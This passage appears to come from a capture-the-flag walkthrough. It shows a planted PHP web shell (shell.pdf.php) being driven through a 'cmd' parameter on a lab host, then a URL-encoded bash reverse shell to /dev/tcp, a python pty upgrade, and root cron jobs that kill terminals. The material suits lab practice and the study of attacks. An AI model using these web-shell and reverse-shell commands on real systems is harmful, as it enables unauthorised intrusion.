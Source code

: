 ```
________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 771ms]

```
then, we have file called shell.pdf.php

Visit our file, we got boom reaction
```
└─$ curl http://10.10.2.238/cvs/shell.pdf.php
<pre></pre>
boom!                                                                                                                                                                                                                                              

```

How does hacker use this to upload a shell??
it is either through get method or post

You could  guess some few parameter exist so as to get shell - `cmd`

```
└─$ curl http://10.10.2.238/cvs/shell.pdf.php?cmd=id                                                                                                                                                                                    130 ⨯
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
boom!              
```
we can see that `id` was executed from parameter `cmd`. 

payload -> `bash -c 'exec sh -i &>/dev/tcp/10.4.69.121/1234 <&1'`

```
curl http://10.10.2.238/cvs/shell.pdf.php?cmd="bash%20-c%20%27exec%20sh%20-i%20%26%3E%2Fdev%2Ftcp%2F10.4.69.121%2F1234%20%3C%261%27"
```
i got shell but when i try to stabilize with bash, i got nope and return to my previous sh shell
```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@b2r:/var/www/html/cvs$ nope
$ 

```
check for process
```
$ ps aux|grep 'nope'
root        7509  0.0  0.1   2608   592 ?        Ss   14:53   0:00 /bin/sh -c /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        7510  0.0  0.1   2608   596 ?        Ss   14:53   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        7511  0.0  0.1   2608   536 ?        Ss   14:53   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        7516  0.0  0.1   2608   596 ?        Ss   14:53   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
www-data    7526  0.0  0.1   3304   652 ?        S    14:53   0:00 grep nope

```
